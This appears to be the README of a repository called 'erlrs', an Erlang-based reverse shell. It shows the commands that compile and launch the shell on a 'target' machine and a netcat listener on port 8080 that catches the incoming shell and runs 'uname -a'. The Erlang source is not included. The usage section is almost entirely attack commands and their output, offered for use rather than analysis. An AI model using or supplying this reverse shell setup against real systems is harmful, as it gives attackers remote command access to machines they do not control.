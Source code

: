 # erlrs

erlang based reverse shell

**Usage**

Target
```
root@WOPR-KALI:/opt/erlrs# erlc erlrs.erl 
erlrs.erl:13: Warning: variable 'Reason' is unused
erlrs.erl:24: Warning: variable 'Reason' is unused
root@WOPR-KALI:/opt/erlrs# erl -noshell -s erlrs main


```

Listener
```
root@WOPR-KALI:~# nc -lvnp 8080
listening on [any] 8080 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44983
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
^C
```
